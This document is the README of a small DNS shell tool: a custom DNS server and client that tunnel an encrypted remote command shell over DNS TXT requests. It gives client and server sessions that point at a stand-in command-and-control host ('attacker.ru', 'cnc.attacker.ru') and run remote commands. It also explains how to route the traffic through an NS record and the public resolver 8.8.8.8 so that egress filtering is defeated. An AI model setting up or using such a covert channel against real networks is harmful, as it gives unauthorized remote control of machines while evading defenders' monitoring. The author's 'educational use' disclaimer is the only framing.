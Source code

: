# DNS Shell

## Introduction
This is a simple dns shell. I've heard a few security talks lately, and I've heard people talk of dns shells like they are new and hip...yet they've been around since the late 90's...is it just me who has heard of these for years?

Anyways, this is a pretty simple shell setup. It contains a custom DNS server that sits and listens for TXT request from a custom DNS client.

The shell implementation is pretty ghetto (kind of on purpose...script kiddies need to do some work on their part...).

All comms are encrypted with AES128 with padding and a nonce-based iv (might be insecure...space for cnc is pretty small...hence why it's AES128 instead of AES256 or higher). At some point I'd like to add a layer of asymmetric encrypt to ensure authenticity with the server and that way a private key wouldn't need to be provided on the client side of things.

The nonce system is kind of a mess. I was too lazy to implement a full nonce based resending system...so I just added a delay between sending packets to "hope" they arrive in order...it's on the todo...

Single client only (multiple clients are going to do some weird things...).

Made this just to do it myself...iodine and dnscat are way better than this...

Educational use intended...don't break the law and say I didn't say you shouldn't...

## Usage
This can be used in two ways - the dumb way and the smart way.

#### Dumb way
Dumb way is simply setting up a server and using it like so:

On the server:
```
$ ./server.py
Password:
DNS Serverpress enter for "0.0.0.0":
DNS Port (press enter for 53):
ls -a
.
..
folder_1
...
```

On client:
```
$ ./client.py
Password:
Root (i.e. ".attacker.ru" without quotes): .attacker.ru
DNS Server: attacker.ru
DNS Port (press enter for 53):
```

The dumb way can be stopped by egress filtering on client machines. The smart way is a little more resilient.

#### Smart way
The smart way is to create an NS record on an internet nameservice (like GoDaddy, Namecheap, etc...). Set this to a subdomain (usually can't make a NS on your root domain on these types of systems). I'm going to use `.cnc.attacker.ru` as an example. You are also going to need to setup a server on an internet accessible machine, and give it an A record to `cnc.attacker.ru`. Any DNS requests for `*.cnc.attacker.ru` from clients can now go to an internet DNS (say `8.8.8.8`), which will query `cnc.attacker.ru`, which will send replies back to `8.8.8.8`, which will go back to the client. Egress filtering defeated...

```
$ ./server.py
Password:
DNS Serverpress enter for "0.0.0.0":
DNS Port (press enter for 53):
ls -a
.
..
folder_1
...
```

On client:
```
$ ./client.py
Password:
Root (i.e. ".attacker.ru" without quotes): .cnc.attacker.ru
DNS Server: 8.8.8.8
DNS Port (press enter for 53):
```

## Files
`alpha.py`		- Arbitrary(ish) encoding system.
`b62.py`		- Base62 encoder using alpha.py.
`client.py`		- Client (aka shell).
`cnc.py`		- Non-blocking command line interface.
`crypt.py`		- Encryption scheme (AES128).
`server.py`		- Server (aka shell handler).
`session.py`	- DNS session handler (has a session number that isn't used at the moment...)
`util.py`		- Random utility functions needed.

## Closing
Summary: Simple liitle dns shell with encrypted comms that still needs a lot of work...but it served its purpose...

That's it...